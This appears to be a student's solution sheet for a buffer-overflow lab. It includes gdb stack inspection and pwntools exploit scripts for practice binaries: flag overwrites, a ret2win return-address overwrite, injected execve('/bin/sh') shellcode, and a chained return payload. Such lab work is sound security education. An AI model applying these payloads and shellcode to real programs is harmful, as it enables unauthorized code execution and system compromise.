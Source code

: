 # Laborator 2

### [Q1]: Can you imagine a scenario where this would affect a program's behavior?
### Solution to [Q1]:
If I have a boolean `is_admin` and an input buffer that stores a name, and I input more characters than the buffer can hold, the overflow could overwrite the `is_admin` value in memory. This might set `is_admin` to `true`, potentially giving unauthorized admin access.

## Exercise 1
### [Q2]: Can you bypass the check that "grants you access", without knowing the secret password?
### Solution to [Q2]:
The `password` buffer is 8 characters long, but if we enter more than 8 characters (for example, `aaaaaaaa1`), the extra character (`1`) overflows the buffer and can overwrite the adjacent `is_admin` variable in memory. This sets `is_admin` to `1`, which the program interprets as granting admin access, bypassing the password check.

### [Q3]: How can we inspect the stack layout of a program?
### Solution to [Q3]:
`gdb`

## Solution to Exercise 1: 
```
$ make ex1
$ echo -n 'aaaaaaaa1' > input
$ gdb -q
pwndbg> file ./bin/ex1
pwndbg> b main
pwndbg> run < input
pwndbg> n
pwndbg> n
pwndbg> x/10gx $rsp
```

```python
0x7fffffffdca0: 0x6161616161616161      0x0000000000000031
0x7fffffffdcb0: 0x00007fffffffdd50      0x00007ffff7dcf1ca
0x7fffffffdcc0: 0x00007fffffffdd00      0x00007fffffffddd8
0x7fffffffdcd0: 0x0000000100400040      0x0000000000401176
0x7fffffffdce0: 0x00007fffffffddd8      0x9de42ea233c29359
```

At address `0x7fffffffdca0`, we see the `password` buffer containing `0x6161616161616161` (which represents "aaaaaaaa"). In the next 8 bytes, at `0x7fffffffdca8`, we find `0x0000000000000031`, which corresponds to `is_admin`. This has been modified to a non-zero value (`1`), indicating that our overflow was successful.

## Exercise 2
### [Q4]: How can we exploit the program just with `echo -ne`?
### Solution to [Q4]:
```python
$ echo -ne 'AAAAAAAA\xef\xbe\xad\xde' | ./bin/ex2
```

## Solution to Exercise 2: 
```python
#!/usr/bin/env python3

from pwn import *

target = process("./bin/ex2")

payload = b"A" * 8 + p64(0xDEADBEEF)
print(payload)

target.send(payload)
target.interactive()
```

## Exercise 3
### [Q5]: How many bytes are between the beginning of our vulnerable buffer and the return address?
### Solution to [Q5]:
56

## Solution to Exercise 3: 
```python
from pwn import *

exe = './bin/ex3'
p = process(exe)

win_addr = p64(0x401156)
padding = b'A' * 56
payload = padding + win_addr

p.sendline(payload)
p.interactive()
```

## Exercise 4
### [Q6]: What type is the first argument to `execve`? Check the manual (`man execve`).
### Solution to [Q6]:
```c
int execve(const char *pathname, char *const _Nullable argv[], char *const _Nullable envp[]);
```

First argument is a `const char`.

### [Q7]: How can we get the right address of `/bin/sh`?
### Solution to [Q7]:
We find the address of `/bin/sh` at runtime:
```python
jmp get_binsh       

start:
    pop rdi         
    xor rsi, rsi    
    xor rdx, rdx    
    mov rax, 59         # 59 is the linux system call for execve
    syscall

get_binsh:
    call start          # pushes the string onto the stack
    .string "/bin/sh"   
```

## Solution to Exercise 4:
```python
#!/usr/bin/env python3

from pwn import *
import os

context.update(arch='amd64', os='linux')
context.binary = './bin/ex4'
target = process('./bin/ex4')

shellcode = asm('''
    jmp get_binsh
start:
    pop rdi
    xor rsi, rsi
    xor rdx, rdx
    mov rax, 59
    syscall
get_binsh:
    call start
    .string "/bin/sh"
''')

padding = b'A' * (264 - len(shellcode))
payload = padding + shellcode

target.recvuntil(b'Buffer at ')
buffer_address = int(target.recvline().strip(), 16)

payload += p64(buffer_address + len(padding))

target.send(payload)
target.interactive()
```

## Extra Challenges
### 1. Exploitation prodigy
### Solution to 1.:
```python
#!/usr/bin/env python3

from pwn import *

target = process('./bin/bonus')

payload = b'A' * 40 + p64(0x401156)  + p64(0x401173)    # 0x401156 = address of dothidden(); 0x401173 = address of win()

target.send(payload)
target.interactive()
```